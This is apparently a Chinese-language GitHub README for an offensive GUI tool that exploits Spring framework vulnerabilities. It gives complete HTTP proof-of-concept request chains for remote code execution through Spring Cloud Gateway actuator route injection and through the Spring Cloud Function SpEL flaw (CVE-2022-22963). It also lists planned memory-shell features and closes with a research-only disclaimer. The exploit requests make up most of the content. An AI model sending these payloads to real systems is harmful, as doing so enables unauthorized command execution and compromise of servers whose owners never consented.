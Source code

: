 <h1 align="center" >Spring_All_Reachable</h1>
<h3 align="center" >一款针对Spring漏洞框架进行快速利用的图形化工具</h3>
 <p align="center">
    <a href="https://github.com/savior-only/Spring_All_Reachable"></a>
    <a href="https://github.com/savior-only/Spring_All_Reachable"><img alt="Spring_All_Reachable" src="https://img.shields.io/badge/Spring_All_Reachable-green"></a>
    <a href="https://github.com/savior-only/Spring_All_Reachable"><img alt="Forks" src="https://img.shields.io/github/forks/savior-only/Spring_All_Reachable"></a>
     <a href="https://github.com/savior-only/Spring_All_Reachable"><img alt="Release" src="https://img.shields.io/github/release/savior-only/Spring_All_Reachable.svg"></a>
  <a href="https://github.comsavior-only/Spring_All_Reachable"><img alt="Stars" src="https://img.shields.io/github/stars/savior-only/Spring_All_Reachable.svg?style=social&label=Stars"></a>
     <a href="https://github.com/savior-only"><img alt="Follower" src="https://img.shields.io/github/followers/savior-only.svg?style=social&label=Follow"></a>
     <a href="https://github.com/savior-only"><img alt="Visitor" src="https://visitor-badge.laobi.icu/badge?page_id=savior-only.Spring_All_Reachable"></a>
	</p>





# 📝 TODO

* Spring Core RCE
* 支持更多类型内存马
* 支持内存马密码修改

........



# :clapper:使用方法

### Spring Cloud Gateway命令执行（Spring_All_Reachable）

#### 漏洞描述

Spring Cloud Gateway存在远程代码执行漏洞，该漏洞是发生在Spring Cloud Gateway应用程序的Actuator端点，其在启用、公开和不安全的情 况下容易受到代码注入的攻击。攻击者可利用该漏洞通过恶意创建允许在远程主机上执行任意远程请求。


#### 漏洞影响

​	VMWare Spring Cloud GateWay 3.1.0  
​	VMWare Spring Cloud GateWay >=3.0.0，<=3.0.6  
​	VMWare Spring Cloud GateWay <3.0.0

#### 漏洞poc

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 328

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

#### 工具使用

![image-20230601131042060](./assets/image-20230601131042060.png)

![image-20230601131127171](./assets/image-20230601131127171.png)

![image-20230601134110151](./assets/image-20230601134110151.png)





### Spring Cloud Function SpEL 远程代码执行 (CVE-2022-22963)

#### 漏洞描述

Spring Cloud Function 是Spring cloud中的serverless框架。

Spring Cloud Function 中的 RoutingFunction 类的 apply 方法将请求头中的“spring.cloud.function.routing-expression”参数作为 Spel 表达式进行处理，造成 Spel 表达式注入漏洞。

攻击者可通过该漏洞执行任意代码。

#### 漏洞影响

org.springframework.cloud:spring-cloud-function-context（影响版本：3.0.0.RELEASE~3.2.2）

#### 漏洞poc

```
POST /functionRouter HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```

#### 工具使用

![image-20230601130120697](./assets/image-20230601130120697.png)

![image-20230601130234458](./assets/image-20230601130234458.png)





# :book: 参考项目

[https://starchart.cc/0x727/SpringBootExploit](https://github.com/0x727/SpringBootExploit)

[https://github.com/whwlsfb/Spring_All_Reachable-godzilla-memshell](https://github.com/whwlsfb/cve-2022-22947-godzilla-memshell)





# :b:免责声明

​	此工具仅作为网络安全攻防研究交流，请使用者遵照网络安全法合理使用！ 如果使用者使用该工具出现非法攻击等违法行为，与本作者无关！



![as](https://starchart.cc/savior-only/Spring_All_Reachable.svg)
